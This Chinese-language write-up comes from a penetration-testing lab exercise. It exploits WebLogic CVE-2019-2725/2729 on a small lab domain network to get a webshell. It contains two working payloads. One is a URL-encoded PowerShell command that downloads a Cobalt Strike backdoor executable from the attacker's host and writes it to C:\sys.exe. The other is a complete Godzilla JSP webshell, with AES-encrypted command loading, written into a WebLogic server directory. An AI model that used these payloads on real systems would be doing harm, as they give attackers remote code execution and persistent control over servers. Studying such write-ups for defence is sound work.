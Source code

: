 重新建了一下网络，IP换了一下：

![image-20220411122657536](./image-20220411122657536.png)

Win7: 外网IP：192.168.140.129 内网IP：10.10.10.201

Web: 外网IP：192.168.140.130 内网IP：10.10.10.80

DC：内网IP：10.10.10.10

算了还算脚本小子一键吧：

> 工具地址：[black-mirror/Weblogic: Weblogic CVE-2019-2725 CVE-2019-2729 Getshell 命令执行 (github.com)](https://github.com/black-mirror/Weblogic)

这样会创建一个Webshell，然后利用这个webshell的话，本来想传一个哥斯拉马过去，但是好像没有必要，直接传了CS的后门，然后看一下能不能连。

```powershell
cmd=powershell%20(new-object%20Net.WebClient).DownloadFile(%27http://192.168.140.128/artifact.exe%27,%27C:\sys.exe%27)
```

然后再被360给拦了。。。

![image-20220411124414711](./image-20220411124414711.png)

你了不起，你清高。。。

直接写一下哥斯拉的马(目录之前已经是拿到了，在后面加?info即可)，试试：

```http
cmd=echo%20^<%!%20String%20xc="3c6e0b8a9c15224a";%20String%20pass="pass";%20String%20md5=md5(pass%2Bxc);%20class%20X%20extends%20ClassLoader{public%20X(ClassLoader%20z){super(z);}public%20Class%20Q(byte[]%20cb){return%20super.defineClass(cb,%200,%20cb.length);}%20}public%20byte[]%20x(byte[]%20s,boolean%20m){%20try{javax.crypto.Cipher%20c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new%20javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return%20c.doFinal(s);%20}catch%20(Exception%20e){return%20null;%20}}%20public%20static%20String%20md5(String%20s)%20{String%20ret%20=%20null;try%20{java.security.MessageDigest%20m;m%20=%20java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(),%200,%20s.length());ret%20=%20new%20java.math.BigInteger(1,%20m.digest()).toString(16).toUpperCase();}%20catch%20(Exception%20e)%20{}return%20ret;%20}%20public%20static%20String%20base64Encode(byte[]%20bs)%20throws%20Exception%20{Class%20base64;String%20value%20=%20null;try%20{base64=Class.forName("java.util.Base64");Object%20Encoder%20=%20base64.getMethod("getEncoder",%20null).invoke(base64,%20null);value%20=%20(String)Encoder.getClass().getMethod("encodeToString",%20new%20Class[]%20{%20byte[].class%20}).invoke(Encoder,%20new%20Object[]%20{%20bs%20});}%20catch%20(Exception%20e)%20{try%20{%20base64=Class.forName("sun.misc.BASE64Encoder");%20Object%20Encoder%20=%20base64.newInstance();%20value%20=%20(String)Encoder.getClass().getMethod("encode",%20new%20Class[]%20{%20byte[].class%20}).invoke(Encoder,%20new%20Object[]%20{%20bs%20});}%20catch%20(Exception%20e2)%20{}}return%20value;%20}%20public%20static%20byte[]%20base64Decode(String%20bs)%20throws%20Exception%20{Class%20base64;byte[]%20value%20=%20null;try%20{base64=Class.forName("java.util.Base64");Object%20decoder%20=%20base64.getMethod("getDecoder",%20null).invoke(base64,%20null);value%20=%20(byte[])decoder.getClass().getMethod("decode",%20new%20Class[]%20{%20String.class%20}).invoke(decoder,%20new%20Object[]%20{%20bs%20});}%20catch%20(Exception%20e)%20{try%20{%20base64=Class.forName("sun.misc.BASE64Decoder");%20Object%20decoder%20=%20base64.newInstance();%20value%20=%20(byte[])decoder.getClass().getMethod("decodeBuffer",%20new%20Class[]%20{%20String.class%20}).invoke(decoder,%20new%20Object[]%20{%20bs%20});}%20catch%20(Exception%20e2)%20{}}return%20value;%20}%^>^<%try{byte[]%20data=base64Decode(request.getParameter(pass));data=x(data,%20false);if%20(session.getAttribute("payload")==null){session.setAttribute("payload",new%20X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream%20arrOut=new%20java.io.ByteArrayOutputStream();Object%20f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(),%20true)));response.getWriter().write(md5.substring(16));}%20}catch%20(Exception%20e){}%20%^>>C:/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/index000.jsp
```
